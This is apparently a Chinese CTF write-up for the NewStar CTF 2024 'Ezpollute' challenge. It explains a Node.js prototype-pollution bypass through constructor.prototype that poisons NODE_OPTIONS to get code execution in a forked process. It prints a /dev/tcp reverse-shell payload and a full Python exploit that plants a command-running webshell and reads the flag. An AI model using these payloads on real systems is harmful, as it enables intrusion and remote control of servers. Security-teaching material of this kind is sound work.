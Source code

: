 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Ezpollute

根据题目名称可知，这是一道 JavaScript 的原型链污染题

查看部署文件，可以得知 Node.js 版本为 16，并且使用了 `node-dev` 热部署启动

![Dockerfile](/assets/images/wp/2024/week4/ezpollute_1.png)

审计 `index.js`，`/config` 路由下调用了 `merge` 函数，`merge` 函数意味着可能存在的原型链污染漏洞

```javascript
router.post('/config', async (ctx) => {
    jsonData = ctx.request.rawBody || "{}"
    token = ctx.cookies.get('token')
    if (!token) {
        return ctx.body = {
            code: 0,
            msg: 'Upload Photo First',
        }
    }
    const [err, userID] = decodeToken(token)
    if (err) {
        return ctx.body = {
            code: 0,
            msg: 'Invalid Token',
        }
    }
    userConfig = JSON.parse(jsonData)
    try {
        finalConfig = clone(defaultWaterMarkConfig)
        // 这里喵
        merge(finalConfig, userConfig)
        fs.writeFileSync(path.join(__dirname, 'uploads', userID, 'config.json'), JSON.stringify(finalConfig))
        ctx.body = {
            code: 1,
            msg: 'Config updated successfully',
        }
    } catch (e) {
        ctx.body = {
            code: 0,
            msg: 'Some error occurred',
        }
    }
})
```

`merge` 函数在 `/util/merge.js` 中，虽然过滤了 `proto`，但我们可以通过 `constructor.prototype` 来绕过限制

```javascript
// /util/merge.js
function merge(target, source) {
    if (!isObject(target) || !isObject(source)) {
        return target
    }
    for (let key in source) {
        if (key === "__proto__") continue
        if (source[key] === "") continue
        if (isObject(source[key]) && key in target) {
            target[key] = merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target
}
```

`/process` 路由调用了 `fork`，创建了一个 JavaScript 子进程用于水印添加

```javascript
try {
        await new Promise((resolve, reject) => {

            // 这里喵
            const proc = fork(PhotoProcessScript, [userDir], { silent: true })

            proc.on('close', (code) => {
                if (code === 0) {
                    resolve('success')
                } else {
                    reject(new Error('An error occurred during execution'))
                }
            })

            proc.on('error', (err) => {
                reject(new Error(`Failed to start subprocess: ${err.message}`))
            })
        })
        ctx.body = {
            code: 1,
            msg: 'Photos processed successfully',
        }
    } catch (error) {
        ctx.body = {
            code: 0,
            msg: 'some error occurred',
        }
    }
```

结合之前的原型链污染漏洞，我们污染 `NODE_OPTIONS` 和 `env`，在 `env` 中写入恶意代码，`fork` 在创建子进程时就会首先加载恶意代码，从而实现 RCE

```python
payload = {
    "constructor": {
        "prototype": {
            "NODE_OPTIONS": "--require /proc/self/environ",
            "env": {
                 "A":"require(\"child_process\").execSync(\"bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'\")//"
            }
        }
    }
}
# 需要注意在 Payload 最后面有注释符 `//`，这里的思路跟 SQL 注入很像
```

考虑到新生可能没有云服务器来反弹 shell，因此在赛题设计时选择了热部署启动

除了弹 shell，还可以通过写 WebShell 覆盖 `index.js`，从而实现有回显 RCE，或者把 flag 输出到 `static` 目录下读也可以

比赛时题目环境并没有出网，弹不了 shell，只能通过后两种方式来做，这里给出写 WebShell 的做法

:::tip 热部署
就是在应用正在运行的时候升级软件，却不需要重新启动应用
:::

```python
import requests
import re
import base64
from time import sleep

url = "http://url:port"

# 获取 token
# 随便发送点图片获取 token
files = [
    ('images', ('anno.png', open('./1.png', 'rb'), 'image/png')),
    ('images', ('soyo.png', open('./2.png', 'rb'), 'image/png'))
]
res = requests.post(url + "/upload", files=files)
token = res.headers.get('Set-Cookie')
match = re.search(r'token=([a-f0-9\-\.]+)', token)
if match:
    token = match.group(1)
    print(f"[+] token: {token}")
headers = {
    'Cookie': f'token={token}'
}

# 通过原型链污染 env 注入恶意代码即可 RCE

# 写入 WebShell
webshell = """
const Koa = require('koa')
const Router = require('koa-router')
const app = new Koa()
const router = new Router()

router.get("/webshell", async (ctx) => {
    const {cmd} = ctx.query
    res = require('child_process').execSync(cmd).toString()
    return ctx.body = {
        res
    }
})

app.use(router.routes())
app.listen(3000, () => {
    console.log('http://127.0.0.1:3000')
})
"""

# 将 WebShell 内容 Base64 编码
encoded_webshell = base64.b64encode(webshell.encode()).decode()

# Base64 解码后写入文件
payload = {
    "constructor": {
        "prototype": {
            "NODE_OPTIONS": "--require /proc/self/environ",
            "env": {
                "A": f"require(\"child_process\").execSync(\"echo {encoded_webshell} | base64 -d > /app/index.js\")//"
            }
        }
    }
}

# 原型链污染
requests.post(url + "/config", json=payload, headers=headers)

# 触发 fork 实现 RCE
try:
    requests.post(url + "/process", headers=headers)
except Exception as e:
    pass

sleep(2)
# 访问有回显的 WebShell
res = requests.get(url + "/webshell?cmd=cat /flag")
print(res.text)
```
